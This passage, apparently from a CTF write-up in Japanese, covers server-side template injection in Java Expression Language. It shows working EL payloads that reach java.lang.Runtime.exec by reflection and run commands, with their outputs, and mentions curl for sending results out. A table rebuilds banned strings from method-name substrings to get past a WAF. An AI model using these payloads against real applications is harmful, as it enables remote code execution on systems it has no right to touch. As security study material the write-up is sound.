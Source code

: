 一旦ローカルでWAFを外した状態で動作するコードを作成する。  
reflectionを使っていろいろ試したところ、以下は上手く動いた。  
ただし、レスポンスに出力される値についてはbyte配列から文字列への変換が必要そう。  
`curl`で外部に出力できれば問題はなさそうではある。

- <https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md>

```java
${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('ls')}
// -> Process[pid=520, exitValue=\"not exited\"]

${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('ls').getInputStream().readAllBytes()}
// -> [B@55f9f6cb

${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('ls').getInputStream().readAllBytes()[0]}
// -> 98
```

- パーツ生成

使えそうな文字列を探す。

```java
${[].getClass().getClass().getMethods()[0]}
// -> public static java.lang.Class java.lang.Class.forName(java.lang.String,boolean,java.lang.ClassLoader) throws java.lang.ClassNotFoundException

${[].getClass().getClass().getDeclaredMethods()[0]}
// -> private void java.lang.Class.checkPackageAccess(java.lang.SecurityManager,java.lang.ClassLoader,boolean)
```

`'`や数値、`java`等の禁止されている文字列を置き換える。

 文字 | 置き換え後
 -- | --
''.getClass() | `[].getClass().getClass()`
forName | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
java.lang. | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
R | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[]].size(),[[],[]].size()).toUpperCase()`
u | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[]].size(),[[],[]].size())`
n | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
t | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())`
i | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size())`
m | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
e | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size())`
l | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size())`